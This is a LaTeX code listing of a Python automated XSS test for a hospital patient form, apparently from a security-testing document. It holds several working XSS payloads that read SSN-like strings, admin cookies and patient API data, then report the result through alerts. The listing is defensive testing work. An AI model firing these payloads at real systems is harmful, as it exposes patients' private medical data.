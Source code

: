 \begin{lstlisting}[style=pythonstyle,caption=Suite de tests XSS automatises pour application medicale]
    def test_medical_context_xss(self):
        """Test XSS specifique au contexte medical"""
        test_name = "Medical Context XSS"
        
        # Payloads specialises pour l'environnement medical
        medical_payloads = [
            "<script>alert('Patient-Privacy-Violation: '+document.body.innerText.match(/\\d{3}-\\d{2}-\\d{4}/g))</script>",  # SSN extraction
            "<img src=x onerror=alert('Medical-Record-Access: '+document.querySelectorAll('.patient-card').length)>",  # Patient count
            "<script>if(document.cookie.includes('admin')){alert('Admin-Cookie-Found')}</script>",  # Admin detection
            "<svg onload=fetch('/api/patients').then(r=>r.json()).then(d=>alert('API-Access: '+d.length))>",  # API access
            "<script>localStorage.setItem('medical_xss_test', 'compromised')</script>",  # Persistence test
            "<iframe src='javascript:parent.alert(\"Medical-IFrame-XSS\")'></iframe>"  # IFrame injection
        ]
        
        medical_successful = []
        
        for payload in medical_payloads:
            params = {'search': payload}
            
            try:
                response = self.session.get(f"{self.target_url}/hospital_patient_form.php", params=params)
                
                if payload in response.text:
                    medical_successful.append(payload)
                    self.logger.critical(f"Medical context XSS: {payload[:50]}...")
                
            except Exception as e:
                self.logger.error(f"Medical XSS test failed: {str(e)}")
        
        return {
            "test_name": test_name,
            "total_payloads": len(medical_payloads),
            "medical_xss_successful": len(medical_successful),
            "vulnerable": len(medical_successful) > 0,
            "payloads": medical_successful,
            "risk_level": "CRITICAL" if len(medical_successful) > 0 else "LOW",
            "medical_context": True
        }

    def generate_report(self):
        """Generate comprehensive XSS test report"""
        total_tests = len(self.test_results)
        vulnerable_tests = sum(1 for test in self.test_results if test['vulnerable'])
        

\end{lstlisting}
